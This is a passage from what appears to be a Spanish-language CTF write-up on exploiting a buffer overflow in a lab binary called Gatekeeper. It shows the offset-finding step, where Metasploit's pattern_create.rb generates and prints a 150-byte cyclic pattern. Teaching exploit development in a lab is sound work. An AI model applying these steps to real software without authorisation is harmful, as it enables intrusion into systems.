 ![Buffer Gatekeeper](/assets/images/fuzzergatekeeper.png)

**Nota:**
Recordar que todo este proceso lo realizaremos primero de forma local en nuestra máquina virtual.
{: .notice--danger}

### 1. Calculando el offset

Como pudimos ver al enviar una cadena de 150 bytes el binario se corrompe. Esta cantidad nos sera de ayuda para obtener el valor del offset.

- Crearemos una cadena aleatoria de `150` de caracteres.
 
   **Comando:**

  ```python
  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 150
  ```

  **Resultado:**

  ```python
  Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
  ```
  Esta cadena la podemos copiar y pegar para enviarla, pero en este caso haremos el uso de un script en python.
